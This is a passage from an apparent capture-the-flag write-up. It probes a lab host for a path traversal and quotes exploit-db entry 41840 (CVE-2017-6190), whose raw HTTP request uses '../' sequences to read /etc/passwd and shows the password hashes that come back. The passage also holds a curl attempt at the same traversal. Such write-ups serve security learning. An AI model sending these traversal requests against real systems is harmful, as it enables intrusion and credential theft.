 ```
-[Wed Feb 28-17:23:50]-[table@parrot]-
-[~]$ curl http://10.10.11.230/uir//etc/passwd
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

Interestingly, we can check online to see if searching the previously known vulnerability that was not fixed, CVE-2017-6190, yields anything more.

We find in exploit-db exploit #41840, we see:

```HTTP Request:

GET /uir/../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1

Host: 192.168.2.1

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

HTTP Response:

HTTP/1.0 200 OK

Content-Type: application/x-none

Cache-Control: max-age=60

Connection: close

root:$1$$taUxCLWfe3rCh2ylnFWJ41:0:0:root:/root:/bin/ash

nobody:$1$$qRPK7m23GJusamGpoGLby/:99:99:nobody:/var/usb:/sbin/nologin

ftp:$1$$qRPK7m23GJusamGpoGLby/:14:50:FTP USER:/var/usb:/sbin/nologin
```

This feels like the right path, but we must think harder on this. We could use the curl command again and follow the redirect with `-L` tag.

Doing this takes us to the homepage, not helpful.

Using `curl` we find out Bootstrap's version Bootstrap v5.2.3. Searching for vulnerabilities, I find there are no direct vulnerabilities.
